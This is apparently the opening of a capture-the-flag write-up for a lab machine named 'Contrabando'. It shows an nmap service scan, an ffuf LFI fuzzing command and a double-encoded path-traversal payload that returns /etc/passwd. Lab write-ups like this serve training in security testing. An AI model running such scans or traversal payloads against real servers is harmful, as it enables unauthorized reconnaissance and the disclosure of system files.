


# Contrabando

# Emumerating / nmap scan

```jsx
$ nmap -T5 -sC -sV -Pn  10.64.155.19
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-04 15:29 CET
Nmap scan report for 10.64.155.19
Host is up (0.15s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 41:ed:cf:46:58:c8:5d:41:04:0a:32:a0:10:4a:83:3b (RSA)
|   256 e8:f9:24:5b:e4:b0:37:4f:00:9d:5c:d3:fb:54:65:0a (ECDSA)
|_  256 57:fd:4a:1b:12:ac:7c:90:80:88:b8:5a:5b:78:30:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.55 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.55 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Web enumeration





## Loking for LFI

```jsx
~$ ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://10.64.155.19/page/FUZZ -e .php -fs 0-300
```

```jsx
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd [Status: 200, Size: 922, Words: 6, Lines: 20, Duration: 222ms]
```